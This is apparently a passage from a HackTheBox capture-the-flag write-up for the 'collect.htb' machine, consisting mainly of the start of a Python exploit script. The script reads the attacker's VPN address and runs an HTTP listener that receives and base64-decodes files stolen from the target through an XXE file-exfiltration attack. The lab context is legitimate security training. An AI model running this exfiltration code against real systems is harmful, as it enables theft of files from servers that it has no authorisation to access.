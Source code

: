 ![](screenshots/http-10.10.11.192-api-xxe-exfil.png)

**Exploit Script**
```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-05-02
Description:

Usage: python script.py [FILENAME]
                        - Where FILENAME is the full path of the file from CWD

Example: python script.py '/etc/hostname'
"""

import threading
import http.server
from base64 import b64decode
import re
import requests
import string
import netifaces as ni
import os
import sys
import random
import pickle

# Get HackTheBox vpn ip from tun0 interface
try:
    tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

session = requests.Session()
# session.proxies = {"http": "http://127.0.0.1:8080"}
host = "http://collect.htb"
rnd_word = ''.join(random.choices(string.ascii_letters, k=10))


# Custom handler for http server for handling received requests
class RequestHandler(http.server.SimpleHTTPRequestHandler):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)

    def do_GET(self):
        # If the request has a "data" parameter
        if "file" in self.path:
            recv_data = re.findall(r"/\?file=(.*?)$", self.path)[0]
            base64_decoded = b64decode(recv_data).decode('UTF-8')
            print(f"[+] Data received -\n\n{base64_decoded}", end='')
```